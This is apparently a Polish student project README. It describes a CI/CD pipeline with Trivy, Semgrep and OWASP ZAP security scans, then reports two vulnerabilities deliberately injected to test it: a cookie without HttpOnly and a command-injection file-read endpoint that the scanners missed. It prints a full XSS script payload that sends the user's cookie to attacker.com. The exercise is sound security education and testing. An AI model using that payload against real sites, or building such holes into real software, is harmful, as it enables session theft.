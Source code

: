 # TBO projekt

## Zadanie 1
Proces CICD w projekcie wydzielony został na dwa workflowy:
- uruchamiany przy wypychaniu zmian na gałąź *main*
- uruchamiany przy wypychaniu zmian na pozostałe gałęzie repozytorium

Oba workflowy są w zasadzie podobne, różnice dotyczą jedynie momentu budowania obrazu. Obraz dockera budowany jest z gałęzi main z tagiem **:latest**, a z pozostałych gałęzi z tagiem **:beta**.  


Proces CICD składa się z następujących jobów:
- *security-tests-trivy*
  
    Odpowiada za przeprowadzenie skanów SCA (Software Composition Analysis).  
   Wykorzystane narzędzie: **Trivy**  
   - Skany są ograniczone do podatności o poziomie `HIGH` i `CRITICAL`.  
   - W przypadku wykrycia podatności proces CICD kończy się niepowodzeniem.
- *security-tests-semgrep*
  
    Odpowiada za przeprowadzenie skanów SAST (Static Application Security Testing).  
   Wykorzystane narzędzie: **Semgrep**  
   - Skany są wykonywane przy użyciu reguł `p/security-audit`.  
   - W przypadku wykrycia podatności proces CICD zostaje przerwany.
- *security-tests-owasp-zap*
  
    Odpowiada za przeprowadzenie skanów DAST (Dynamic Application Security Testing).  
   Wykorzystane narzędzie: **OWASP ZAP**  
   - Narzędzie skanuje aplikację uruchomioną w kontenerze dockerowym.  
   - W przypadku wykrycia podatności proces CICD kończy się niepowodzeniem.
- *test*
  
    Wykonuje testy jednostkowe aplikacji. W istocie składają się one z jednego prostego testu zaimplementowanego w celu symulacji całego joba. Przy bieżącej implementacji testów będą one zawsze kończyły się sukcesem.
- *build-and-publish*
   - Buduje oraz wypycha obraz z odpowiednim tagiem (latest lub beta) do publicznego repozytorium Docker Hub. 
   - Proces wykona się jedynie w przypadku, gdy wszystkie testy (jednostkkowe oraz bezpieczeństwa) zakończą się powodzeniem. Jeśli przynajmniej jeden z testów nie powiedzie się, obraz nie zostanie wdrożony.


## Zadanie 2

W repozytorium na gałęzi *vulnerabilities* zostały wykonane dwa commity, dodające dwie podatności do aplikacji. Każdy z commitów uruchomił zaimplementowany proces CICD, zawierający skanowanie SCA, SAST, DAST oraz uruchomienie testów jednostkowych.
Do kodu zostały wstrzyknięte następujące podatności:
1. **ciasteczko bez flagi *HttpOnly*** - pierwsza z nich obejmowała zmianę konfiguracji uruchamianej aplikacji w taki sposób, że ustawiane użytkownikowi ciasto JSESSIONID nie ma ustawionej flagi *HttpOnly*.

![cookie_httponly](https://github.com/user-attachments/assets/e936080d-4d7b-4e5e-87bf-d8f0bbd14a5d)


Taka podatność oznacza, że ciasteczko może być odczytane i modyfikowane przez skrypty po stronie klienta, np. za pomocą JavaScriptu (document.cookie). W przypadku wystąpienia podatności XSS, wstrzyknięty przez atakującego kod miałby dostęp do ciastek użytkownika. Zagrożeniem jest tutaj kradzież sesji użytkownika wynikająca z przejęcia ciastka.
W naszej aplikacji już wcześniej występowała podatność XSS, między innymi w polu *Name* obiektu *Student*. Potencjalny atakujący mógłby użyć następującego payloadu wstrzykniętego w nazwę użytkownika, co skutkowałoby wysłaniem wartości ciastka użytkownika na serwer atakującego:
```
<script>var xhr = new XMLHttpRequest();xhr.open("GET", "http://attacker.com/?cookie=" + document.cookie, true);xhr.send();</script>
```
Zaimplementowany proces CICD wykrył dodaną podatność na etapie skanowana DAST. Narzędzie ZAP w raporcie z dynamicznej analizy zwróciło następujący wynik:

![zap](https://github.com/user-attachments/assets/e92ff127-121c-4c23-baf0-e2ce6ea8a4ae)


2. **Command Injection** - do aplikacji został dodany nowy endpoint, służący do odczytu plików tekstowych znajdujących się na serwerze. Został zdefiniowany endpoint */files/read-file*, który w parametrze URL przyjmuje nazwę pliku do otwarcia. 


![read_file](https://github.com/user-attachments/assets/ddeca1d8-849a-479b-bbc2-220879506c5f)


Nowy endpoint zawiera podatność - możliwe jest wstrzyknięcie komendy w parametrze *fileName*

![injection](https://github.com/user-attachments/assets/17dc551b-5042-44fd-b3de-a4f56caf8a0e)

Niestety podatność nie została wykryta na żadnym z etapów skanowania. Możliwą przyczyną jest brak odwołania do tego endpointu w HTML strony, co skutkowało nieprzeskanowaniem tego endpointu przez narzędzie OWASP ZAP. Ta sytuacja podkreśla zagrożenie wynikające z ukrytych w aplikacji endpointów. Jeżeli endpoint nie jest dostępny z GUI, to nie znaczy, że atakujący go nie znajdzie. Pozostawianie zbędnych aktywnych endpointów, które nie są widoczne z frontu, może stanowić istotne zagrożenie dla bezpieczeństwa aplikacji. Takie endpointy mogą być nieużywanymi pozostałościami po wcześniejszych implementacjach lub funkcjonalnościami z niekontrolowanym dostępem, które nie zostały odpowiednio zabezpieczone. Brak ich widoczności w narzędziach takich jak OWASP ZAP może utrudniać wykrycie potencjalnych podatności, co podkreśla konieczność regularnych przeglądów i usuwania niepotrzebnych lub nieużywanych punktów dostępowych w aplikacji.
